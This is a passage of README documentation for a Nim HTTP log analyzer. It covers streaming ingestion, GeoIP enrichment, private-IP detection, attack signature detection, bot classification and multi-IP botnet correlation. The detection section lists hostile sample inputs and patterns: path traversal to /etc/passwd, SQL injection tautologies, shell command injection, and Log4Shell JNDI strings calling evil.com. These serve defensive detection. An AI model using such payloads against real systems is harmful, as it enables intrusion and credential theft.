nim r --path:src examples/format_detection_and_parsing.nim
```

---

### 5. Streaming Ingestion & Pipe Support

Buffered low-allocation stream readers supporting regular log files, STDIN pipes (`tail -f access.log | http_logviewer`), native transparent gzip decompression (`.log.gz`), and live file growth tailing with truncation and rotation recovery:

```nim
import std/[options]
import http_logviewer/core/[types, config]
import http_logviewer/parser/[engine, formats]

# 1. Opening a StreamReader on a regular file, STDIN ("-"), or compressed gzip (.log.gz)
let reader = openStreamReader("access.log.gz")
defer: reader.close()

# 2. Low-allocation line-by-line reading reusing memory buffer
var line = ""
while reader.readLine(line):
  echo "Read log line: ", line

# 3. High-level streaming log line processor with O(1) memory
let stats = streamLogLines(
  "access.log",
  follow = false,
  onEntry = proc(entry: HttpLogEntry) =
    if entry.statusCode >= 400:
      echo "Alert: [", entry.statusCode, "] ", entry.path, " from ", entry.clientIp
)
echo "Streamed ", stats.parsedEntries, " entries in ", stats.elapsedSeconds, "s"

# 4. Live file tailing (-f/--follow) with automatic rotation detection
let tailReader = openStreamReader("/var/log/nginx/access.log")
defer: tailReader.close()

var liveLine = ""
while tailReader.readLineFollow(liveLine, pollIntervalMs = 100):
  echo "Live event: ", liveLine
```

#### Terminal Demonstration

The recording below illustrates `StreamReader` file ingestion, transparent `.log.gz` decompression, live file tailing with real-time append detection, and $O(1)$ memory stream processing in action:


> *Source session recording:* [`docs/recordings/streaming_and_pipe_ingestion.cast`](docs/recordings/streaming_and_pipe_ingestion.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/streaming_and_pipe_ingestion.nim
```

---

### 6. Parsing Fault-Tolerance & Edge Cases

Production HTTP access logs frequently contain corrupted character encodings, unescaped interior quotes, proxy port suffixes, multi-locale timestamps, and adversarial injection payloads. `http_logviewer` provides robust sanitization, address normalization, and diagnostics tracking to ensure ingestion never panics:

- **Byte Sanitization & Escaped Quotes**: Cleans invalid UTF-8 byte sequences via replacement or excision, scrubs raw ASCII control characters and ANSI terminal escape codes (`\x1b`), and handles unescaped interior quotes in URI paths and User-Agents using lookahead delimiter heuristics.
- **IPv4 & IPv6 Address Normalization**: Strips port numbers (e.g. `192.168.1.1:8080` or `[2001:db8::1]:443`), removes bracket enclosures, trims network interface scopes (`%eth0`), and extracts the client IP from comma-separated `X-Forwarded-For` proxy chains.
- **Locale Timestamp Normalization**: Normalizes international month abbreviations (German `Okt`, Dutch `mrt`, French `févr.`, Spanish `Dic`) and parses negative timezone offsets (e.g. `[10/Oct/2000:13:55:36 -0700]`).
- **Streaming Diagnostics & Malformed Line Tracking**: Tracks `parsedEntries` and `unparsedLines` counters within `StreamReader` and provides `ParsingDiagnostics` for recording unparseable records with optional stderr warnings.

```nim
import std/times
import http_logviewer/core/types
import http_logviewer/parser/[formats, engine]

# 1. Handling unescaped interior quotes in requests and User-Agents
let raw = "192.168.1.50 - - [10/Oct/2026:13:55:36 +0000] \"GET /search?q=\"exploit\" HTTP/1.1\" 200 1024 \"-\" \"Mozilla/5.0 (\"Special\") Chrome\""
var entry: HttpLogEntry
assert parseCombinedLine(raw, entry)
assert entry.path == "/search?q=\"exploit\""

# 2. IPv4/IPv6 port stripping and bracket removal
assert cleanIpAddress("192.168.1.1:8080") == "192.168.1.1"
assert cleanIpAddress("[2001:db8::1]:443") == "2001:db8::1"
assert isIpv6Address(cleanIpAddress("[2001:db8::1]:443"))

# 3. International month abbreviations and negative UTC offsets
let dt = parseLogDateTime("10/Okt/2026:13:55:36 -0700")
assert dt.utc.hour == 20

# 4. Stream diagnostics tracking malformed lines
var diag = initParsingDiagnostics(warnToStderr = false)
diag.recordSuccess()
diag.recordMalformed("MALFORMED UNPARSEABLE LINE")
assert diag.unparsedCount == 1
assert diag.totalLines == 2
```

#### Terminal Demonstration

The recording below illustrates quote recovery, byte sanitization, IPv4/IPv6 address normalization, international date normalization, and streaming diagnostics tracking in action:


> *Source session recording:* [`docs/recordings/parsing_fault_tolerance.cast`](docs/recordings/parsing_fault_tolerance.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/parsing_fault_tolerance.nim
```

---

### 7. IP-to-Country Lookup & GeoIP Enrichment

Every HTTP request is automatically enriched with geographical origin metadata, ISO 3166-1 alpha-2 country codes, English country names, and Unicode regional indicator flag emojis (e.g. `🇺🇸 US`, `🇩🇪 DE`, `🇳🇱 NL`, `🏠 LAN`):

- **GeoIpProvider & GeoIpEngine**: Polymorphic provider architecture supporting MaxMind MMDB files, offline CIDR fallback databases, and LRU-cached backends.
- **Pure Nim Offline MMDB Parser**: Zero-dependency binary parser for MaxMind DB (`.mmdb`) databases (GeoLite2-Country and GeoLite2-City) supporting 24-bit, 28-bit, and 32-bit trees, data section pointer resolution, and metadata auto-parsing.
- **Embedded Offline CIDR Fallback**: Built-in compact subnet database covering major cloud providers and international backbones (Google, Cloudflare, AWS, Azure, Hetzner, OVH, DigitalOcean, Netherlands, China, Russia, Japan, etc.) with zero external file requirements.
- **Bogon & Private LAN Detection**: RFC 1918 subnets (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), Loopback (`127.0.0.1`, `::1`), Link-Local (`169.254.0.0/16`, `fe80::/10`), CGNAT (`100.64.0.0/10`), and IPv6 ULA (`fc00::/7`) are resolved instantly as `🏠 LO (Local / Private Network)` with zero database overhead.
- **High-Performance LRU Memory Cache**: O(1) in-memory cache with configurable capacity (default 50,000 entries), achieving sub-100ns lookup latency on repeated queries and comprehensive hit/miss statistics.
- **Automatic Database Discovery**: Automatically discovers local MMDB databases across custom paths (`--geoip-db=<path>`), current working directory (`./GeoLite2-Country.mmdb`), and standard system directories (`/usr/share/GeoIP/`, `/var/lib/GeoIP/`, `/etc/GeoIP/`).

```nim
import std/options
import http_logviewer/core/types
import http_logviewer/enrichment/geoip

# 1. Initialize GeoIpEngine with automatic discovery and embedded fallback
let engine = newGeoIpEngine()

# 2. RFC 1918 Private LAN / Bogon detection (zero database overhead)
let privateLoc = engine.lookup("192.168.1.100")
assert privateLoc.isPrivate == true
assert privateLoc.countryCode == "LO"
assert privateLoc.flagEmoji == "🏠"

# 3. Public IPv4 and IPv6 geolocation lookups
let googleLoc = engine.lookup("8.8.8.8")
assert googleLoc.countryCode == "US"
assert googleLoc.flagEmoji == "🇺🇸"

let hetznerLoc = engine.lookup("78.46.100.2")
assert hetznerLoc.countryCode == "DE"
assert hetznerLoc.flagEmoji == "🇩🇪"

let ipv6Loc = engine.lookup("2001:4860:4860::8888")
assert ipv6Loc.countryCode == "US"

# 4. Sub-100ns O(1) LRU memory cache
let cached = engine.lookup("8.8.8.8")
assert engine.cache.hits > 0
```

#### Terminal Demonstration

The recording below illustrates IP-to-Country geolocation enrichment, RFC 1918 private IP detection, public IPv4/IPv6 network resolution, and high-performance LRU memory cache benchmarks in action:


> *Source session recording:* [`docs/recordings/ip_to_country_lookup.cast`](docs/recordings/ip_to_country_lookup.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/ip_to_country_lookup.nim
```

---

### 8. Unicode Regional Indicator Flags & Country Metadata

Provides mathematical 2-letter ISO-to-flag emoji conversion, static English country name dictionary covering all 249 ISO 3166-1 alpha-2 territories, special GeoIP pseudo-codes, and terminal ASCII fallback:

- **Algorithmic Regional Indicator Conversion**: Mathematically transforms any 2-letter ISO 3166-1 alpha-2 country code (`US`, `DE`, `NL`, `JP`, etc.) into pairs of Unicode Regional Indicator Symbols (`U+1F1E6` to `U+1F1FF`) yielding exact 8-byte UTF-8 emoji flags (`🇺🇸`, `🇩🇪`, `🇳🇱`, `🇯🇵`).
- **Complete ISO-3166-1 Country Name Dictionary**: Static mapping dictionary (`getCountryName`) covering all 249 officially assigned ISO 3166-1 alpha-2 countries and territories, resilient to whitespace and case variations.
- **Official ISO Code Table**: Exports `IsoCountryCodes` (249 official codes) and validation predicate `isKnownIsoCountryCode`.
- **Special GeoIP Pseudo-Codes**: Specialized handling for European Union (`EU` -> `🇪🇺`), Asia-Pacific Region (`AP` -> `🌏`), Anonymous Proxies (`A1` -> `🕵️`), Satellite Providers (`A2` -> `🛰️`), Tor Exit Nodes (`T1` -> `🧅`), Other Countries (`O1` -> `🌐`), Local LAN (`LO` / `LAN` / `LOCAL` -> `🏠`), United Kingdom alias (`UK` -> `🇬🇧`), and Unknown (`XX` / `??` -> `🌐`), along with `isSpecialOrPseudoCode`.
- **Terminal Fallback for ASCII / Plain Terminals**: Robust fallback routines (`flagTerminalFallback`, `formatCountryFlag`, `formatCountryBadge`, `terminalSupportsEmoji`) that render bracketed ASCII badges (e.g. `[US] US`, `[LAN] LO`) when emojis are unsupported, `NO_EMOJI=1` is set, or running under `TERM=dumb`.

```nim
import http_logviewer/enrichment/flags

# 1. Algorithmic ISO code to flag emoji conversion
assert isoToFlagEmoji("US") == "🇺🇸"
assert isoToFlagEmoji("de") == "🇩🇪"
assert isoToFlagEmoji("nl") == "🇳🇱"

# 2. English country name dictionary (all 249 ISO countries supported)
assert getCountryName("US") == "United States"
assert getCountryName("DE") == "Germany"
assert isKnownIsoCountryCode("NL")

# 3. Special GeoIP and security pseudo-codes
assert isoToFlagEmoji("EU") == "🇪🇺"
assert isoToFlagEmoji("AP") == "🌏"
assert isoToFlagEmoji("A1") == "🕵️"
assert isoToFlagEmoji("T1") == "🧅"
assert isoToFlagEmoji("LO") == "🏠"

# 4. Terminal fallback rendering
assert flagTerminalFallback("US") == "[US]"
assert formatCountryFlag("US", useEmoji = false) == "[US]"
assert formatCountryBadge("US", useEmoji = true) == "🇺🇸 US"
assert formatCountryBadge("US", useEmoji = false) == "[US] US"
```

#### Terminal Demonstration

The recording below demonstrates algorithmic flag conversion, country name dictionary resolution, GeoIP pseudo-codes, and terminal fallback formatting across environments:



> *Source session recording:* [`docs/recordings/flags_and_country_metadata.cast`](docs/recordings/flags_and_country_metadata.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/flags_and_country_metadata.nim
```

---

### 9. Bogon, Private, and Loopback IP Handling

Traffic originating from internal networks, proxy relays, load balancers, or loopback addresses requires distinct handling from public routable internet traffic. `http_logviewer` provides rigorous, high-precision detection of RFC 1918 private IPv4 ranges, loopback, link-local, carrier-grade NAT (CGNAT), IPv6 Unique Local Addresses (ULA), multicast groups, and bogon/unroutable address blocks, presenting distinct visual badges (`🏠 Local / Private LAN`) with zero database lookup overhead:

- **RFC 1918 Private IPv4 Ranges**: Exact boundary validation for `10.0.0.0/8` (`10.0.0.0` - `10.255.255.255`), `172.16.0.0/12` (`172.16.0.0` - `172.31.255.255`), and `192.168.0.0/16` (`192.168.0.0` - `192.168.255.255`), including IPv4-mapped IPv6 formats (e.g. `::ffff:192.168.1.1`).
- **Loopback & Host Resolution**: Identifies IPv4 loopback across the entire `127.0.0.0/8` block (`127.0.0.1` - `127.255.255.255`), IPv6 loopback (`::1`, `0:0:0:0:0:0:0:1`, `[::1]`), and `localhost` aliases.
- **Link-Local Autoconfiguration**: Detects IPv4 link-local (`169.254.0.0/16`, RFC 3927) and IPv6 link-local unicast (`fe80::/10`, RFC 4291) with network interface scope trimming (e.g. `fe80::1%eth0`).
- **Carrier-Grade NAT & IPv6 ULA**: Classifies CGNAT / Shared Address Space (`100.64.0.0/10`, RFC 6598) and IPv6 Unique Local Addresses (`fc00::/7`, RFC 4193).
- **Multicast, Broadcast & Bogon Ranges**: Identifies IPv4 multicast (`224.0.0.0/4`), IPv6 multicast (`ff00::/8`), limited broadcast (`255.255.255.255`), current network (`0.0.0.0/8`), Class E reserved (`240.0.0.0/4`), documentation networks (`192.0.2.0/24`, `198.51.100.0/24`, `203.0.113.0/24`, `2001:db8::/32`), benchmarking, and IPv6 discard-only/unspecified.
- **Distinct Local Traffic Markers & Badges**: Exposes `formatLocalTrafficMarker` and `formatPrivateIpBadge` rendering `🏠 Local / Private LAN` (or ASCII `[LAN] Local / Private LAN`), plus optional detailed topology descriptions.
- **GeoIpEngine Short-Circuiting**: Intercepts private, loopback, and bogon IPs instantly at the engine boundary, returning `makePrivateLocation` with `flagEmoji = "🏠"`, `countryCode = "LO"`, and `isPrivate = true` with zero disk MMDB queries.

```nim
import http_logviewer/enrichment/bogon
import http_logviewer/enrichment/geoip

# 1. RFC 1918 private IPv4 detection
assert isRfc1918Private("10.0.0.1")
assert isRfc1918Private("172.20.1.1")
assert isRfc1918Private("192.168.1.100")
assert isRfc1918Private("::ffff:192.168.1.1")

# 2. Loopback and link-local detection
assert isLoopbackIp("127.0.0.1")
assert isLoopbackIp("::1")
assert isLoopbackIp("localhost")
assert isLinkLocalIp("169.254.1.1")
assert isLinkLocalIp("fe80::1")

# 3. Carrier-grade NAT, multicast, and ULA
assert isCgnatIp("100.64.0.1")
assert isMulticastIp("224.0.0.1")
assert isUniqueLocalIp("fd12:3456:789a::1")

# 4. Subnet classification
assert classifyIpSubnet("192.168.1.1") == SubnetPrivateRfc1918
assert subnetDescription(SubnetPrivateRfc1918) == "RFC 1918 Private LAN"
assert classifyIpSubnet("127.0.0.1") == SubnetLoopback
assert classifyIpSubnet("8.8.8.8") == SubnetPublic

# 5. Distinct local traffic markers
assert formatLocalTrafficMarker("192.168.1.1", useEmoji = true) == "🏠 Local / Private LAN"
assert formatLocalTrafficMarker("192.168.1.1", useEmoji = false) == "[LAN] Local / Private LAN"
assert formatLocalTrafficMarker("10.0.0.1", useEmoji = true, detailed = true) == "🏠 Local / Private LAN (RFC 1918 Private LAN)"
```

#### Terminal Demonstration

The recording below demonstrates RFC 1918 subnet boundary detection, loopback/link-local resolution, CGNAT/multicast classification, bogon range filtering, distinct local traffic markers, and GeoIpEngine integration:



> *Source session recording:* [`docs/recordings/bogon_and_private_ip.cast`](docs/recordings/bogon_and_private_ip.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/bogon_and_private_ip.nim
```

---

### 10. Attack Signature & Payload Detection

The `http_logviewer/analyzer/signatures` module implements high-precision pattern recognition and payload analysis to detect automated vulnerability probes, exploit scanners, and OWASP Top 10 attack vectors embedded in URI paths and query parameters:

- **Sensitive File Probes**: Detects requests for environment secrets (`.env`, `.env.local`), version control directories (`.git/config`, `.git/HEAD`), cryptographic keys (`id_rsa`, `.ssh/id_rsa`), Docker compositions (`docker-compose.yml`), cloud credentials (`.aws/credentials`), database dumps (`backup.sql`, `dump.sql`), and framework health/actuator endpoints (`/actuator/env`).
- **CMS & Web Admin Exploits**: Flags targeted attacks against popular CMS platforms and administrative portals, including WordPress (`/wp-login.php`, `/xmlrpc.php`, `/wp-admin/`), database managers (`/phpmyadmin`, `/pma/`, `/admin/pma/`), router interfaces (`/boaform/admin/`), and debugger endpoints (`/telescope/requests`).
- **Directory Traversal**: Identifies single-encoded, double-encoded, and obfuscated path traversal attempts (`../`, `..\`, `%2e%2e%2f`, `%252e%252e%252f`, `%2e%2e%5c`), along with direct probes targeting sensitive Unix/Windows files (`/etc/passwd`, `/etc/shadow`, `/boot.ini`, `windows/win.ini`).
- **SQL Injection (SQLi)**: Identifies classic SQL injection syntax, including `UNION SELECT` variations, boolean tautologies (`' or '1'='1`, `' or 1=1`), blind timing delays (`waitfor delay`, `sleep()`, `benchmark()`), and metadata schema probes (`information_schema`).
- **Remote Code Execution (RCE) & Command Injection**: Catches shell invocations and command chaining (`;id`, `|id`, `` `id` ``, `$(whoami)`, `;whoami`), binary paths (`/bin/sh`, `/bin/bash`, `cmd.exe`), and dangerous language interpreters (`eval()`, `base64_decode()`, `system()`).
- **Log4j / JNDI Probes**: Recognizes Log4Shell JNDI injection patterns (`${jndi:ldap://`, `${jndi:rmi://`, `${jndi:dns://`) including obfuscated lookup evasion (`${${lower:j}ndi:`).
- **OWASP Top 10 Multi-Vector Analysis**: Provides comprehensive scanners (`scanAttackSignatures`, `analyzeAttackPayload`) that inspect URI paths and queries, map findings to typed `ThreatFlag` sets, and provide actionable signature descriptors.

```nim
import http_logviewer/analyzer/signatures
import http_logviewer/core/types

# 1. Sensitive file probes
assert isSensitiveFileProbe("/.env")
assert isSensitiveFileProbe("/.git/config")
assert isSensitiveFileProbe("/index.php?download=wp-config.php")

# 2. CMS exploit probes
assert isCmsExploit("/wp-login.php")
assert isCmsExploit("/phpmyadmin/index.php")

# 3. Directory traversal
assert isDirectoryTraversal("/../../../etc/passwd")
assert isDirectoryTraversal("/%252e%252e%252fboot.ini")

# 4. SQL injection
assert isSqlInjection("/search?q=1+union+select+1,2,3")
assert isSqlInjection("/login?user=' or '1'='1")

# 5. Command injection and RCE
assert isCommandInjection("/cgi-bin/ping?ip=127.0.0.1;id")
assert isCommandInjection("/lookup?h=$(whoami)")

# 6. Log4j / JNDI injection
assert isLog4jJndi("/?token=${jndi:ldap://evil.com/x}")
assert isLog4jJndi("/?q=${${lower:j}ndi:dns://bad.org}")

# 7. Composite analysis
let (flags, matches) = analyzeAttackPayload("/wp-login.php?redirect=..%2f..%2f.env&query=' union select 1,2,3--")
assert ThreatCmsExploit in flags
assert ThreatDirectoryTraversal in flags
assert ThreatSensitiveFile in flags
assert ThreatSqlInjection in flags
```

#### Terminal Demonstration

The recording below demonstrates sensitive file probe detection, CMS exploit tracking, directory traversal decoding, SQLi heuristics, command injection filtering, Log4j detection, and multi-vector payload analysis:



> *Source session recording:* [`docs/recordings/attack_signatures_and_payloads.cast`](docs/recordings/attack_signatures_and_payloads.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/attack_signatures_and_payloads.nim
```

---

### 11. User-Agent Taxonomy & Bot Identification

The `http_logviewer/analyzer/useragents` module provides high-accuracy User-Agent analysis, classifying HTTP clients into structured intent categories (`CategoryVerifiedBot`, `CategoryFriendlyCrawler`, `CategoryCommercialBot`, `CategorySuspicious`, `CategoryBadActorHacker`, `CategoryRealUser`):

- **Verified Search Engine Bots**: Recognizes legitimate search engine crawlers (`Googlebot`, `Bingbot`, `DuckDuckBot`, `YandexBot`, `Baiduspider`, `Applebot`, `Sogou`, `Qwantify`, `SeznamBot`) across desktop, mobile, image, video, and ads indexing variants, ensuring zero threat false positives.
- **Friendly Social & Archival Crawlers**: Detects friendly previewers and digital preservation bots (`Archive.org`, `ia_archiver`, `FacebookExternalHit`, `Twitterbot`, `LinkedInBot`, `Slackbot`, `TelegramBot`).
- **Commercial & SEO Crawlers**: Identifies commercial SEO, data collection, and auditing crawlers (`AhrefsBot`, `SemrushBot`, `MJ12bot`, `DotBot`, `Screaming Frog SEO Spider`, `ByteSpider`, `PetalBot`, `CriteoBot`, `BLEXBot`, `SEOkicks`, `ZoominfoBot`, `DataForSeoBot`, `SiteAuditBot`, `CCBot`, `MojeekBot`, `TurnitinBot`).
- **Offensive Scanners & Exploit Tools**: Flags offensive vulnerability scanners, fuzzers, and intrusion tools (`sqlmap`, `nikto`, `masscan`, `zgrab`, `nuclei`, `gobuster`, `dirbuster`, `nmap`, `wpscan`, `havij`, `acunetix`, `nessus`, `qualys`, `openvas`, `arachni`, `hydra`, `medusa`, `ffuf`, `dirb`, `whatweb`, `metasploit`, `commix`, `jaeles`, `wfuzz`, `sublist3r`, `amass`, `censys`, `shodan`), immediately assigning `CategoryBadActorHacker` and `ThreatKnownScannerUa`.
- **Generic HTTP Libraries**: Identifies automated programming clients (`curl`, `python-requests`, `python-urllib`, `Go-http-client`, `Wget`, `aiohttp`, `httpx`, `libwww-perl`, `PHP`, `PostmanRuntime`, `Apache-HttpClient`, `okhttp`, `Java`, `axios`, `node-fetch`, `got`, `GuzzleHttp`, `Faraday`, `Ruby`), tagging them as `CategorySuspicious` with `ThreatNoAssetFetch`.
- **User-Agent Anomaly Detection**: Catches evasion tactics including empty User-Agents (`AnomalyEmpty`), single bare words lacking standard structure (`AnomalySingleWord`), forged modern Chrome User-Agents on ancient unsupported Windows versions such as NT 5.x / 4.0 / 98 (`AnomalyFakeChromeOnAncientWindows`), bare browser tokens (`AnomalyMissingBrowserTokens`), raw control characters (`AnomalyNonAsciiOrControlChars`), and embedded exploit vectors like SQLi, shell commands, and Log4j (`AnomalyExploitPayloadInUa`).
- **End-to-End Classification**: Provides `classifyUserAgent(ua)` returning a rich `UserAgentClassification` record containing category, matched rule name, threat flags, anomaly set, and suggested risk score.

```nim
import http_logviewer/analyzer/useragents
import http_logviewer/core/types

# 1. Verified search bots
let google = classifyUserAgent("Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)")
assert google.category == CategoryVerifiedBot
assert google.suggestedThreatScore == 0

# 2. Commercial crawlers
let ahrefs = classifyUserAgent("Mozilla/5.0 (compatible; AhrefsBot/7.0; +http://ahrefs.com/robot/)")
assert ahrefs.category == CategoryCommercialBot

# 3. Offensive security scanners
let sqlmap = classifyUserAgent("sqlmap/1.7.2#stable (https://sqlmap.org)")
assert sqlmap.category == CategoryBadActorHacker
assert ThreatKnownScannerUa in sqlmap.flags

# 4. Generic scripting libraries
let curl = classifyUserAgent("curl/8.4.0")
assert curl.category == CategorySuspicious

# 5. User-Agent anomalies (forged Chrome on Windows XP)
let fake = classifyUserAgent("Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 Chrome/120.0.0.0 Safari/537.36")
assert fake.category == CategoryBadActorHacker
assert AnomalyFakeChromeOnAncientWindows in fake.anomalies

# 6. Authentic human browser
let chrome = classifyUserAgent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/122.0.0.0 Safari/537.36")
assert chrome.category == CategoryRealUser
assert chrome.suggestedThreatScore == 0
```

#### Terminal Demonstration

The recording below demonstrates classification of verified search engine bots, commercial crawlers, offensive security scanners, generic HTTP libraries, and evasive User-Agent anomalies:



> *Source session recording:* [`docs/recordings/user_agent_taxonomy.cast`](docs/recordings/user_agent_taxonomy.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/user_agent_taxonomy.nim
```

---

### 12. Behavioral Heuristics & Anomaly Scoring

The `http_logviewer/analyzer/classifier` module implements high-resolution heuristic scoring and session tracking, aggregating attack signatures, User-Agent taxonomy, and behavioral telemetry into a normalized **Risk Score (0–100)** and canonical **ActorCategory** (`RealUser`, `VerifiedBot`, `FriendlyCrawler`, `CommercialBot`, `SuspiciousScanner`, `BadActorHacker`):

- **Static Asset Ratio Heuristic**: Measures the proportion of secondary resources (CSS, JS, SVG, images, fonts, media) requested alongside HTML endpoints. Real users rendering pages in a browser generate high static ratios (> 35%), which applies a mitigating score bonus (-10 pts). Automated scrapers and fuzzers probing 5+ endpoints with zero static assets trigger `ThreatNoAssetFetch` (+20 pts).
- **404 Error Velocity Heuristic**: Distinguishes single accidental broken links (tolerated at <= 5 pts) and benign missing static assets (e.g. `/favicon.ico`, 0 penalty) from aggressive directory fuzzing. Tracks consecutive 404 runs (>= 3 elevated, >= 5 high rate, >= 10 aggressive fuzzing) and short-window error rates, flagging `ThreatHighRate404`.
- **HTTP Method Anomaly Scoring**: Identifies protocol-level abuse including proxy tunnels (`CONNECT`) and cross-site tracing (`TRACE`) triggering `ThreatMalformedRequest` (+35 pts), non-standard custom verbs (+20 pts), write methods (`POST`, `PUT`, `DELETE`) targeting administrative or exploit paths (`/wp-login.php`, `/.env`) triggering `ThreatCmsExploit` (+35 pts), and missing `Referer` headers on write requests (+10 pts).
- **Composite Risk Scoring Engine**: Seamlessly integrates payload analysis, User-Agent classification, HTTP status heuristics, method verification, and behavioral history into an integer score bounded strictly to `[0..100]`.
- **Score to ActorCategory Mapping**: Categorizes visitors deterministically:
  - **0–20**: `CategoryRealUser` (or `CategoryVerifiedBot` / `CategoryCommercialBot` if legitimate crawler).
  - **21–49**: `CategorySuspicious` (aliased to `SuspiciousScanner`).
  - **50–100**: `CategoryBadActorHacker`.
- **False Positive Mitigation**: Search engines (`Googlebot`, `Bingbot`) browsing legitimately remain at score 0. Legitimate human users across desktop and mobile browsers navigate websites with zero false positives.

```nim
import http_logviewer/analyzer/classifier
import http_logviewer/core/types

# 1. Stateless evaluation of a single log entry
let hostileEntry = initHttpLogEntry(
  clientIp = "185.220.101.5",
  path = "/wp-login.php",
  method = HttpPost,
  statusCode = 404,
  userAgent = "sqlmap/1.7.2#stable"
)
let profile = evaluateThreat(hostileEntry)
assert profile.score >= 50
assert profile.category == CategoryBadActorHacker
assert ThreatKnownScannerUa in profile.flags

# 2. Stateful visitor session tracking
let tracker = newVisitorBehaviorTracker()
let humanIp = "192.0.2.10"

# User requests page followed by static assets
discard evaluateThreat(initHttpLogEntry(clientIp = humanIp, path = "/", statusCode = 200, userAgent = "Mozilla/5.0"), tracker)
discard evaluateThreat(initHttpLogEntry(clientIp = humanIp, path = "/style.css", statusCode = 200, userAgent = "Mozilla/5.0"), tracker)
discard evaluateThreat(initHttpLogEntry(clientIp = humanIp, path = "/bundle.js", statusCode = 200, userAgent = "Mozilla/5.0"), tracker)

let stats = tracker.getStats(humanIp).get()
assert stats.staticAssetRatio() > 0.60
```

#### Terminal Demonstration

The recording below demonstrates static asset ratio calculation, 404 error velocity heuristics, HTTP method anomaly scoring, composite threat score aggregation, and intent categorization:



> *Source session recording:* [`docs/recordings/behavioral_heuristics.cast`](docs/recordings/behavioral_heuristics.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/behavioral_heuristics.nim
```

---

### 13. Actor Fingerprint Synthesis & Multi-IP Correlation

The `http_logviewer/analyzer/correlator` module implements behavioral fingerprinting, attack sequence hashing, query parameter normalization, and Jaccard similarity scoring to correlate distributed attacks across disparate IP addresses:

- **Actor Fingerprint Synthesis**: Combines normalized User-Agent strings, sorted threat signatures, normalized structural path patterns, and HTTP Accept headers into deterministic 64-bit hashes and hexadecimal identifiers (`hashHex`), allowing requests from distinct IP addresses that belong to the exact same botnet fleet to be mapped to a single unified entity.
- **URL Path Sequence Hasher**: Hashes multi-step attack patterns (`probeA -> probeB -> probeC`) in sequential order while masking dynamic integer IDs (`/users/{id}`), UUIDs (`{uuid}`), and cryptographic hashes (`{hash}`) to detect coordinated traversal or exploit workflows. Includes `ProbeSequenceTracker` for sliding-window sequence tracking.
- **Query Parameter Normalization**: Strips rotating ephemeral cache-busting tokens (`_`, `cb`, `nocache`, `timestamp`, `ts`, `rand`, `v`) and sorts remaining parameters alphabetically. Prevents evasive scanners from escaping fingerprint deduplication by simply randomizing query strings.
- **Jaccard Similarity Scoring**: Computes exact set overlap ($J(A,B) = |A \cap B| / |A \cup B|$) on normalized probed endpoint collections. Provides `fingerprintSimilarity` aggregating User-Agent identity, threat signature overlap, and probed path similarity into a normalized metric (0.0 .. 1.0).
- **Session Identifier & Token Extraction**: Extracts known session cookies (`phpsessid`), API tokens, tracking keys (`token`, `api_key`), and campaign IDs from query parameters, referers, and raw log lines (`hasSharedSessionToken`, `getSharedSessionTokens`) to definitively link multi-IP requests.
- **Multi-IP Botnet Validation**: Successfully groups rotating residential proxy fleets and multi-node cloud scanner networks executing identical attack campaigns.

```nim
import http_logviewer/analyzer/correlator
import http_logviewer/core/types

# 1. Synthesize identical fingerprints across distinct IP addresses
let node1 = initHttpLogEntry(
  clientIp = "185.220.101.5",
  path = "/.env?_=1700000001",
  `method` = HttpGet,
  userAgent = "Masscan/1.3.2"
)
let node2 = initHttpLogEntry(
  clientIp = "45.154.255.12",
  path = "/.env?cb=random123",
  `method` = HttpGet,
  userAgent = "Masscan/1.3.2"
)
let threat = initThreatProfile(score = 85, matchedSignatures = @["SensitiveFile:DotEnv"])

let fp1 = generateActorFingerprint(node1, threat, "*/*")
let fp2 = generateActorFingerprint(node2, threat, "*/*")

# Both rotating nodes generate the exact same fingerprint!
assert fp1.rawHash == fp2.rawHash
assert fp1.hashHex == fp2.hashHex

# 2. Structural path sequence hashing
let attackSeq = @["/.env", "/wp-login.php", "/xmlrpc.php"]
let seqHash = hashPathSequence(attackSeq)
assert formatPathSequence(attackSeq) == "/.env -> /wp-login.php -> /xmlrpc.php"

# 3. Jaccard similarity across probed endpoints
let clusterA = ["/wp-login.php", "/.env", "/xmlrpc.php"]
let clusterB = ["/wp-login.php", "/.env", "/xmlrpc.php", "/backup.sql"]
assert pathSetSimilarity(clusterA, clusterB) == 0.75
```

#### Terminal Demonstration

The recording below demonstrates behavioral fingerprint generation, URL path sequence hashing, cache-buster parameter normalization, Jaccard similarity scoring, and 4-node distributed botnet equivalence:



> *Source session recording:* [`docs/recordings/actor_fingerprint_synthesis.cast`](docs/recordings/actor_fingerprint_synthesis.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/actor_fingerprint_synthesis.nim
```

---

### 14. Multi-IP Probe Sequence Correlation

Correlates disparate IP addresses executing synchronized attack sequences within a sliding time window (5 to 60 minutes), detects residential proxy rotation, maintains a dynamic `ActorClusterTable` linking IPs to unified actor clusters, and calculates cluster-level risk metrics:

- **Sliding Time Window Tracker (`SlidingWindowTracker`)**: Configurable correlation window (default 1800s / 30 min) maintaining active temporal bounds and automatically pruning expired clusters and secondary indexes via `pruneExpired`.
- **Probe Sequence Correlation**: Automatically detects when distinct IP addresses execute matching sequences of exploit endpoints (`/.env -> /wp-login.php -> /xmlrpc.php`), unifying them under a shared cluster ID even when requests arrive minutes apart.
